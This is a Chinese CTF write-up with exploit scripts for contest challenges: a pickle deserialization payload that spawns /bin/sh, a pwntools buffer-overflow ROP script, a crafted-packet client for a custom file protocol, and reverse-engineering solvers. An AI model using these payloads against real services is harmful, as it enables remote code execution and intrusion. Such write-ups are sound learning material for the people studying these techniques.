群里大佬说最近有CTF比赛，于是和同学组队围观了一下

最后的结果是排名77（进前一百啦）但是和大佬（第一名7105 points）相比，还是十分的弱
在所有分类的题型里面，Crypto和Audio/Radio我们直接白给…
下面直接给出我做出部分的题解吧
Pwn Jellyspotters
The leader of the Jellyspotters has hired you to paint them a poster for their convention, using this painting program. Also, the flag is in ~/flag.txt.
nc umbccd.io 4200
Author: nb
题目上来就是一个nc，也没给二进制

先看一下帮助，涉及到访问文件的估计只有export和import指令了，先看一下export：

没有参数…
再看一下import：

这里发现了关键内容：
输入的是base64编码的数据
使用pickle进行了解码
所以直接搜索pickle任意文件访问，找到了相关内容：利用Python pickle实现任意代码执行 - FreeBuf网络安全行业门户
然后构造payload：并进行base64编码：
1 2 3 4 cos system (S'/bin/sh' tR.

Bofit
Because Bop It is copyrighted, apparently
nc umbccd.io 4100
Author: trashcanna
这是一道十分中规中矩的pwn题，给出了代码和二进制
在play_game函数中找到了gets

然后又没有保护，经典的ROP

在这题里面，play_game进入哪一个case是由随机数生成的，所以为了方便找出返回地址的偏移，我先将随机数改成了常数自己编译一个程序（返回地址的偏移量应该不会变化，rand的返回值不经过栈，直接使用寄存器），然后使用cyclic找出要填充的长度，然后再找出win_game的地址就好了


需要注意的是，程序里面有个if(strlen(input) < 10) correct = false;条件，需要使字符串长度小于10才可以结束函数，这里直接使用\0解决
最后的脚本：
1 2 3 4 5 6 7 8 9 10 11 12 13 from pwn import *io = remote('umbccd.io' , 4100 ) io.recvuntil('BOF it to start!\n' ) io.sendline('B' ) payload = b'A' * 5 + b'\0' + b'A' * 50 payload += p64(0x401256 ) io.recvuntil('Shout it!\n' ) io.sendline(payload) io.interactive()
这里偷了懒，因为能否进入有gets的case是由随机数决定的，而我这里直接写死了，实际上多运行几次就好了

RE Calculator 题目给了一个exe文件，拖入IDA

主函数逻辑十分清晰，sub_411348功能是从给定文件中读入一个整数
要求两个整数的积是64，那么直接8*8即可：

Secret App 这题一样，是一个windows的逆向题

这个题目就是明文的字符串匹配：

直接找就好了：

who am i 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 int __cdecl main_0 (int argc, const char **argv, const char **envp) int result; char v4; int v5; int v6; void *v7; _DWORD v8[2 ]; __CheckForDebuggerJustMyCode(&unk_41C005); if ( argc == 2 ) { v8[0 ] = 0 ; sub_41133E((char *)argv[1 ], "%d" , (char )v8); v7 = 0 ; v6 = 5 ; v5 = 5 ; while ( v6 ) { switch ( v6 ) { case 2 : if ( v5 == 42 ) { sub_4110CD("flag: %s\n" , (char )v7); sub_4110CD("\n" , v4); v6 = 0 ; } break ; case 4 : sub_4110CD("that's not who i am..\n" , v4); v6 = 0 ; break ; case 5 : v5 = v6; if ( getpid() == v8[0 ] ) v6 = 8 ; else v6 = 4 ; break ; case 8 : if ( v5 == 5 ) { v6 = 10 ; v7 = calloc (0x100 u, 1u ); } v5 = 8 ; break ; case 10 : if ( v5 == 8 ) sub_411352(v7); v5 = v6; v6 = 20 ; break ; case 20 : if ( v5 == 10 ) sub_41135C(v7); v5 = 42 ; v6 = 2 ; break ; default : v6 = 0 ; break ; } } result = 0 ; } else { sub_4110CD("who am i?!?\n" , v4); result = -1 ; } return result; }
这个题目要求我们给程序一个参数，使得我们输入的参数和程序的PID一样，但是程序没有运行我们怎么知道呢：），直接使用keypatch处理一下就好了

NSTFTP 这道题难度十分的大，只有38支队伍做出来了。我虽然说做出来了，但是很多细节还是不明白
题目给了一个pcap流量，首先尝试分析协议：
追踪TCP流，总共有三个：



可以发现：指令至少有10个bytes
经过猜测，其中部分内容的含义：
字节位置
含义
第一个
指令OP
第二个
整条指令的长度
第三个到第九个
恒为0
第十个
附加内容的长度（第十一个开始的长度）
第十一个起
附加内容（可以为空）
然后有几个固定的通信：
服务器打招呼：指令OP为01，附加内容NSTFTP v1.0
向服务器打招呼：指令OP为02，附加内容NSTFTP-client-go-dawgs
服务器返回当前目录下的文件列表，多条指令，OP为04
向服务器请求文件内容，OP为05
大概摸清楚后开始写一个脚本把文件给下载下来：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 from pwn import *r = remote('umbccd.io' , 4300 ) r.recvuntil('v0.1' ) hello = [0x02 , 0x20 , 0x00 , 0x00 , 0x00 , 0x00 , 0x00 , 0x00 , 0x00 , 0x16 , 0x4e , 0x53 , 0x54 , 0x46 , 0x54 , 0x50 , 0x2d , 0x63 , 0x6c , 0x69 , 0x65 , 0x6e , 0x74 , 0x2d , 0x67 , 0x6f , 0x2d , 0x64 , 0x61 , 0x77 , 0x67 , 0x73 ,0x03 , 0x0b , 0x00 , 0x00 , 0x00 , 0x00 , 0x00 , 0x00 , 0x00 , 0x01 , 0x2e ]hello = map(chr, hello) hello = '' .join(hello) r.send(hello) end = [0x04 , 0x0a , 0x00 , 0x00 , 0x00 , 0x00 , 0x00 , 0x00 , 0x00 , 0x00 ] end = map(chr, end) end = '' .join(end) filelist = r.recvuntil(end) print(filelist) lists = filelist.split(b'\x04' ) count = 0 for f in lists: count = count + 1 if count != 11 : continue if f == b'' : continue print(f) req = b'\x05' + f r.send(req) data = r.recvrepeat(2 ) print('recv len = ' + str(len(data))) file = open(str(count) + '.bin' , 'wb' ) file.write(data) file.close()
脚本写的比较丑，但是能用就好了，脱下来的关键文件有：nstftp、libc-2.31.so、flag_printer，其中libc-2.31.so和flag_printer经过分析估计是给Pwn题用的，在flag_printer中有读取文件：/root/pwnflag
直接开始分析nstftp
main函数较为正常，读取了给定的参数然后启动服务器，其中这个服务器支持以孩子进程的形式启动。

先看主程序逻辑：

构造socket之类的监听完成后进入Accept函数（我自己命名的）
在Accept函数中

接收客户端连接然后还是fork了子进程

一个典型的fork-exec模式，我们回到一开始的子进程逻辑：

我这里NOP了几条指令

原来是有一个alarm的系统调用，但是搜索完整个程序，但是只有一处调用了signal，并且是子程序退出的信号，与alarm无关，估计是反调试了…
这个sub_55E238A436E9函数我真的没看懂，里面有一个fwrite不知道在干什么，估计是向客户端发送数据吧。

暂时就这样认为，然后看Work函数：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 __int64 Work () unsigned int v0; unsigned int v2; int v3; __int64 v4[515 ]; v4[513 ] = __readfsqword(0x28 u); memset (v4, 0 , 0x1000 uLL); v3 = fgetc(stdin ); if ( v3 == -1 || (LOBYTE(v4[0 ]) = v3, fread((char *)v4 + 1 , 8u LL, 1u LL, stdin ) != 1 ) ) { v0 = getpid(); __fprintf_chk(stderr , 1L L, "[%d]: EOF, disconnecting\n" , v0); } else { if ( *(__int64 *)((char *)v4 + 1 ) > 0x1000 uLL ) DisconnectAndExit(0x63 u); if ( *(__int64 *)((char *)v4 + 1 ) <= 8u LL ) DisconnectAndExit(0x64 u); if ( *(__int64 *)((char *)v4 + 1 ) == 9 || __fread_chk((char *)&v4[1 ] + 1 , 4087L L, *(__int64 *)((char *)v4 + 1 ) - 9 , 1L L, stdin ) == 1 ) { ++qword_55E238A470B0; if ( LOBYTE(v4[0 ]) <= 9u ) __asm { jmp rax } DisconnectAndExit(2u ); } v2 = getpid(); __fprintf_chk(stderr , 1L L, "[%d]: EOF reading rest, disconnecting\n" , v2); } return 0L L; }
这里一个__asm { jmp rax }就让人觉得这玩意不简单，看一下汇编发现：

这里有几个不知道从哪里进入的指令…估计只能是这个jmp rax跳转过去了
从IDA的F5代码中发现，这个函数对指令的长度进行了一些预处理，然后通过动态调试后发现，程序根据指令的OP跳转到了上述的几个片段中，但是根据op怎么跳转过去着实没有看出对应关系

但是大致的，这四个片段的起始长度相差0xE
至于SendFlag的指令OP是多少，没分析出来，但通过动态调试发现指令OP为0x09时可以进入这里
直接分析SendFlag：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 unsigned __int64 __fastcall SendFlag (__int64 a1) unsigned __int64 v1; char *v2; unsigned __int8 v3; char *v4; __int128 v6; __int64 v7[510 ]; unsigned __int64 v8; v8 = __readfsqword(0x28 u); v6 = 0u LL; memset (v7, 0 , sizeof (v7)); if ( *(_BYTE *)(a1 + 9 ) != 8 || memcmp ("UMBCDAWG" , (const void *)(a1 + 10 ), 8u LL) ) DisconnectAndExit(0x2A u); if ( (unsigned __int64)qword_55E238A470B0 <= 9 ) DisconnectAndExit(0x2B u); v1 = strlen (ClientID) + 1 ; v2 = ClientID; v3 = 4 ; while ( v2 != &ClientID[v1 - 1 ] ) v3 += *v2++; if ( v3 != 0x80 ) DisconnectAndExit(v3); LOBYTE(v6) = 10 ; v4 = getenv("FLAG" ); if ( !v4 ) v4 = "DogeCTF{real_flag_is_on_the_server}" ; BYTE9(v6) = strlen (v4); __memcpy_chk((char *)&v6 + 10 , v4, BYTE9(v6), 4086L L); *(_QWORD *)((char *)&v6 + 1 ) = BYTE9(v6) + 10L L; sub_55E238A436E9(&v6, *(size_t *)((char *)&v6 + 1 )); return __readfsqword(0x28 u) ^ v8; }
这里静态加动态分析发现取得flag的几个要求：
附加内容长度为8
附加内容为：UMBCDAWG
客户端标识字符之和为0x80-0x4=0x7C，指令OP为2的时候传递的数据
然后看一下客户端打招呼的处理函数：

这里要求客户端标识(unsigned __int8)(*v2 - 33) > 0x59u中的每个字符ASCII小于字母z的ASCII，那就是除了{|}~都可以
所以可以写脚本了：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 from pwn import *r = remote('umbccd.io' , 4300 ) r.recvuntil('v0.1' ) hello = [0x02 , 0x0c , 0x00 , 0x00 , 0x00 , 0x00 , 0x00 , 0x00 , 0x00 , 0x02 , 0x30 , 0x4C , 0x03 , 0x0b , 0x00 , 0x00 , 0x00 , 0x00 , 0x00 , 0x00 , 0x00 , 0x01 , 0x2e ] hello = map(chr, hello) hello = '' .join(hello) r.send(hello) log.info('Sayed Hello' ) end = [0x04 , 0x0a , 0x00 , 0x00 , 0x00 , 0x00 , 0x00 , 0x00 , 0x00 , 0x00 ] end = map(chr, end) end = '' .join(end) filelist = r.recvuntil(end) log.info('Received File List' ) input('Pad Seven Command: ' ) padding = [0x02 , 0x0c , 0x00 , 0x00 , 0x00 , 0x00 , 0x00 , 0x00 , 0x00 , 0x02 , 0x30 , 0x4C , 0x03 , 0x0b , 0x00 , 0x00 , 0x00 , 0x00 , 0x00 , 0x00 , 0x00 , 0x01 , 0x2e ] padding = map(chr, padding) padding = '' .join(padding) for i in range(7 ): r.send(padding) input('Send Payload: ' ) flag = b'\x09\x12' + b'\x00' * 7 + b'\x08' + b'UMBCDAWG' r.send(flag) data = r.recvrepeat(2 ) print(data)

这里脚本在凑指令条数的时候没用清空缓冲区，所以收到了许多重复的目录信息数据
Binary Bomb 这个bomb我负责了phase3到phase7，这个Binary Bomb感觉就是Bomblab的升级版
phase3

这里将输入的字符串经过两次变换后进行比对，func3_1为凯撒移位密码，func3_2是ascii范围内的移位
直接给脚本吧：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 #include <cstring> #include <cstdio> unsigned char func3_1 (unsigned char a1) unsigned char v1; unsigned char v2; if (a1 > 64 && a1 <= 90 ) { a1 -= 13 ; if (a1 > 64 ) v1 = 0 ; else v1 = 26 ; a1 += v1; } if (a1 > 96 && a1 <= 122 ) { a1 -= 13 ; if (a1 > 96 ) v2 = 0 ; else v2 = 26 ; a1 += v2; } return a1; } unsigned char refunc3_1 (unsigned char a1) unsigned char v1; unsigned char v2; if (a1 > 96 && a1 <= 122 ) { a1 += 13 ; if (a1 > 122 ) a1 -= 26 ; } if (a1 > 64 && a1 <= 90 ) { a1 += 13 ; if (a1 > 90 ) a1 -= 26 ; } return a1; } unsigned char func3_2 (unsigned char a1) unsigned char v1; if (a1 > 32 && a1 != 127 ) { a1 -= 47 ; if (a1 > 32 ) v1 = 0 ; else v1 = 94 ; a1 += v1; } return a1; } unsigned char refunc3_2 (unsigned char a1) unsigned char v1; if (a1 > 32 && a1 != 127 ) { a1 += 47 ; if (a1 >= 127 ) a1 -= 94 ; } return a1; } int main () unsigned char str[] = "\"_9~Jb0!=A`G!06qfc8'_20uf6`2%7" ; for (int i = 0 ; i < 31 ; i++) { str[i] = refunc3_2(str[i]); str[i] = refunc3_1(str[i]); } printf ("%s\n" , str); }
phase4

func4用了一种很蠢的方法求斐波那契数列
题目要求给四个数，要求fib(10)*v7[i]与对应数的斐波那契数相同
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 #include <cstdint> #include <cstdio> #include <cstring> #include <cstdlib> int64_t func4 (int a1) int64_t v2; if (a1 <= 0 ) return 0L L; if (a1 == 1 ) return 1L L; v2 = func4((unsigned int )(a1 - 1 )); return v2 + func4((unsigned int )(a1 - 2 )); } int main () printf ("%ld\n" , func4(10 )); uint64_t v7[4 ], in[3 ]; v7[0 ] = 1L L; v7[1 ] = 123L L; v7[2 ] = 15128L L; v7[3 ] = 1860621L L; uint64_t v5 = func4(10L L); for (int i = 0 ; i <= 3 ; ++i) { uint64_t v1 = v5 * v7[i]; printf ("%ld " , v1); } printf ("\n" ); for (int i = 10 ; i <= 40 ; i += 10 ) printf ("fib(%d)=%ld\n" , i, func4(i)); return 0 ; }
四个数分别为10，20，30，40
phase5

func5是判断一个数是否是质数，题目要求输入三个数，三个数要求递增且相邻的数只差要大于等于10，并且综合为8084，这个直接找质数表，发现：2011 2017 2027 2029这四个符合要求
phase6

这题将输入数据的高四位与低四位交换，然后异或0x64之后与常量进行比对，直接写脚本：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 #include <cstdint> #include <cstdio> #include <cstring> #include <cstdlib> int main () uint8_t s[24 ], in[24 ]; s[0 ] = 64 ; s[1 ] = 119 ; s[2 ] = 35 ; s[3 ] = -111 ; s[4 ] = -80 ; s[5 ] = 114 ; s[6 ] = -126 ; s[7 ] = 119 ; s[8 ] = 99 ; s[9 ] = 49 ; s[10 ] = -94 ; s[11 ] = 114 ; s[12 ] = 33 ; s[13 ] = -14 ; s[14 ] = 103 ; s[15 ] = -126 ; s[16 ] = -111 ; s[17 ] = 119 ; s[18 ] = 38 ; s[19 ] = -111 ; s[20 ] = 0 ; s[21 ] = 51 ; s[22 ] = -126 ; s[23 ] = -60 ; for (int i = 0 ; i < 24 ; i++) { s[i] ^= 0x64 ; s[i] = ((s[i] & 0xF0 ) >> 4 ) | ((s[i] & 0xF ) << 4 ); } printf ("%s\n" , s); }
phase7

这题要求输入三个数，三个数递增，且和为509，并且每个数为循环素数
先从网上找一个脚本（循环素数_wliu0828的专栏-CSDN博客 ）算循环素数：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 import mathdef search_prime (n ): arr = [] for i in range(1 , n+1 ): if shift(i): arr.append(i) print arr def is_prime (x ): if x == 1 : return False flag = True for i in range(2 , int(math.sqrt(x)) + 1 ): if x % i == 0 : flag = False break return flag def shift (n ): x = n bits = 0 while x is not 0 : x /= 10 bits += 1 flag = True y = int(math.pow(10 , bits-1 )) for i in range(0 , bits): if not is_prime(n): flag = False break n = 10 *(n % y) + n / y return flag def main (): num = int(raw_input()) search_prime(num) main()

然后根据条件找到113 197 199，然后验证一下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 #include <cstdint> #include <cstdio> #include <cstring> #include <cstdlib> int64_t func5 (int a1) int i; if ((a1 & 1 ) == 0 || a1 <= 1 ) return 0L L; for (i = 3 ; i < a1 / 2 ; i += 2 ) { if (!(a1 % i)) return 0L L; } return 1L L; } int main () int v1; unsigned int v2; char v4; unsigned int v5; int i; int v7; int j; int k; int l; char *ptr[3 ]; for (int i = 0 ; i < 3 ; i++) ptr[i] = (char *)malloc (4 * sizeof (char )); ptr[0 ][0 ] = '1' ; ptr[0 ][1 ] = '1' ; ptr[0 ][2 ] = '3' ; ptr[1 ][0 ] = '1' ; ptr[1 ][1 ] = '9' ; ptr[1 ][2 ] = '7' ; ptr[2 ][0 ] = '1' ; ptr[2 ][1 ] = '9' ; ptr[2 ][2 ] = '9' ; puts ("\nAt least we can say our code is resuable" ); v5 = 1 ; v7 = 0 ; for (j = 0 ; j <= 2 ; ++j) { v7 += atoi((const char *)ptr[j]); if (j > 0 ) { v1 = atoi((const char *)ptr[j - 1 ]); if (v1 > atoi((const char *)ptr[j])) { v5 = 0 ; printf ("E1\n" ); } } for (k = 0 ; k <= 2 ; ++k) { if (atoi((const char *)ptr[j]) <= 99 ) { v5 = 0 ; printf ("E2\n" ); break ; } v2 = atoi((const char *)ptr[j]); v5 &= func5(v2); if (v5 == 0 ) printf ("E3: %d\n" , v2); v4 = *(char *)(ptr[j] + 2L L); ptr[j][2 ] = ptr[j][1 ]; ptr[j][1 ] = ptr[j][0 ]; ptr[j][0 ] = v4; } } if (v7 != 509 ) v5 = 0 ; if (v5 != 0 ) printf ("Success\n" ); else printf ("Wrong\n" ); }